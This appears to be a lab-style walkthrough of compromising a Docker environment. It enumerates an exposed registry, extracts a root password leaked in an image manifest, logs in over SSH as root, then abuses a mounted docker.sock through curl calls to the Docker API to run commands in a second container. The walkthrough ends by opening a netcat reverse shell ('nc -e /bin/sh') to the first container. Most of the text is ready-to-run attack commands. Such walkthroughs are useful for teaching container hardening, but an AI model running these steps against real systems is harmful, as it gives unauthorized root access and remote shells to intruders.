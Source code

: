 Attack1 :: Compromising Container C1:


Context:

A Docker Environment is running in an organization and it has several images and few containers running. It also has a docker registry service running on port 5000 for developers to access the status of images and containers.

An attacker (or an adversary) is in the same network as the system on which docker engine is installed (say Ubuntu). S(he) does not have access to the Ubuntu system (its very secure) however S(he) could see that there is a docker environment in the network as docker registry can be accessed on port 5000. The docker registry itself does not pose any serious security risk as it does not allow the user to create, delete or publish images (unless it is writable). The objective of the attacker is to find and exploit the vulnerabilities in the docker environment (if any) and eventually gain access to the underlying Ubuntu operating system.

1. Check running ports on the Ubuntu system by scanning its IP address (the IP Address of Ubuntu system is easy to discover assuming that the attacker is in the same network)

	nmap -Pn 192.168.2.44 -p- (assume IP is 192.168.2.44)
	
You would see that port 22 and port 5000 is open. 

2. We know that the Docker registry runs on port 5000 by default, we can try checking it in the browser to see if we get any response.

	http://192.168.2.44:5000/v2/_catalog

You would see a JSON response listing down all the available images on the registry. 

3. Each image can have different tags published which can be checked by following URL for each image.

	http://192.168.2.44:5000/v2/image-name/tags/list
	
Docker registry can also be used to read manifest file of the images. Manifest file basically contains all the information about that image since the image is built. These manifest file can unintentionally be exposing some sensitive information, who knows, lets check.

4. Hit following URL to read manifest file of an image (say my-ubuntu:vuln)

	http://192.168.2.44:5000/v2/my-ubuntu/manifests/vuln
	
A Manifest file will be downloaded. On checking you could see that there is a history section in the file which contains history of all the commands which were ran when the image was being built. On careful observation one could see that it is exposing a string named SECRET, whose value is being set as the password of root user in the very next command. In further commands, the root user is being enabled for login on SSH server which is running on port 22. As an attacker, we got the hint that the value of SECRET is the password for root user on SSH. Also port 22 was discovered during initial port scan.

5. Try logging into SSH on 192.168.2.44 (Ubuntu) using root user and you would get into the system as a root user.

	ssh root@192.168.2.44
	
However you would see that the system which we have just compromised is not actually Ubuntu system. It is one of the docker container running on that Ubuntu system. Since we got the password from the manifest file of ubuntu:vuln image, so we are inside the container of myubuntu:vuln. Also it is obvious by looking at the hostname of the system that we are inside some docker container.

So, Container C1 is compromised.

---

Attack1 :: Comprimising Container C2:

Background: 

Container C! is already compromised which has docker.sock file mounted at /var/run/docker.sock. This can leveraged to communicate with docker engine and get access to other running containers.

To communicate with Docker Engine using docker.sock, 'docker' command line tool should be installed however we are assuming that installation for 'docker' command line is blocked due to security reasons. 
So, We will be using Unix socket to communicate with Docker Engine.



1. List all docker images:

	curl -s --unix-socket /var/run/docker.sock -X GET http://localhost/images/json | jq

2. List all the running container:

	curl -s --unix-socket /var/run/docker.sock -X GET http://localhost/containers/json | jq
	
3. Choose the container id on which the command would be ran. (say 43de4ed6fa5df1e1f06432df00f6070fb8b6213992b84a7ae2646130263cbd4b)


4. Now, create exec instance from running container, basically, create an instance to run the command on the container.

	curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/containers/43de4ed6fa5df1e1f06432df00f6070fb8b6213992b84a7ae2646130263cbd4b/exec -H "Content-Type: application/json" -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "DetachKeys": "ctrl-p,ctrl-q", "Tty": false, "Cmd": ["date"] }'
	
	Copy the exec id and use it to run the command

	curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/exec/46256aeee7dd58d3294d8a93679a80656e0a94e0a2b562e6c4d90679affd7e92/start -H "Content-Type: application/json" -d '{ "Detach": false, "Tty": false }'
	
Now we know that we have the ability to run command on another container (C2), we can get the complete shell access of C2 by getting reverse shell, We would need netcat installed on C2 that can send us the reverse shell. We would need netcat on container C1 as well to catch the reverse shell.

5. Installing netcat on C1:

	apt install -y netcat (As simple as that)
	
6. Installing netcat on C2, Not that simple; Use the same curl technique to run command remotely:

	curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/containers/43de4ed6fa5df1e1f06432df00f6070fb8b6213992b84a7ae2646130263cbd4b/exec -H "Content-Type: application/json" -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "DetachKeys": "ctrl-p,ctrl-q", "Tty": false, "Cmd": ["apt","install","-y","netcat"] }'

	curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/exec/<ExecID>/start -H "Content-Type: application/json" -d '{ "Detach": false, "Tty": false }'

7. You can check if netcat has been installed properly

	curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/containers/43de4ed6fa5df1e1f06432df00f6070fb8b6213992b84a7ae2646130263cbd4b/exec -H "Content-Type: application/json" -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "DetachKeys": "ctrl-p,ctrl-q", "Tty": false, "Cmd": ["which","nc"] }'

14b6a08a29fca55a35166f67b48e67cb56387722a67794b397936acc37a31c7a

	curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/exec/<ExecID>/start -H "Content-Type: application/json" -d '{ "Detach": false, "Tty": false }'

8. Similarly, net-tools can be installed, however not needed, just to check the IP address of C2. But we would need the IP address of C1 (to send the reverse shell).

	curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/containers/43de4ed6fa5df1e1f06432df00f6070fb8b6213992b84a7ae2646130263cbd4b/exec -H "Content-Type: application/json" -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "DetachKeys": "ctrl-p,ctrl-q", "Tty": false, "Cmd": ["apt","install","-y","net-tools"] }'


	curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/exec/<ExecID>/start -H "Content-Type: application/json" -d '{ "Detach": false, "Tty": false }'

9. Check IP address of C1:

	ifconfig
	
(Lets say its 172.17.0.3)

10. Check IP address of C2:


	curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/containers/43de4ed6fa5df1e1f06432df00f6070fb8b6213992b84a7ae2646130263cbd4b/exec -H "Content-Type: application/json" -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "DetachKeys": "ctrl-p,ctrl-q", "Tty": false, "Cmd": ["ifconfig"] }'


	curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/exec/<ExecID>/start -H "Content-Type: application/json" -d '{ "Detach": false, "Tty": false }'


11. Open the shell listener on C1, on which C2 will send the reverse shell.


	nc -lvp 8080


12. Now, lets check if we are able to get complete access to C2, Moment of the truth! Run the netcat command from C2 and wait on C1 to recieve the shell.


	curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/containers/43de4ed6fa5df1e1f06432df00f6070fb8b6213992b84a7ae2646130263cbd4b/exec -H "Content-Type: application/json" -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "DetachKeys": "ctrl-p,ctrl-q", "Tty": false, "Cmd": ["nc","-e","/bin/sh","172.17.0.3", "8080"] }'


	curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/exec/<ExecID>/start -H "Content-Type: application/json" -d '{ "Detach": false, "Tty": false }'


TaDa!
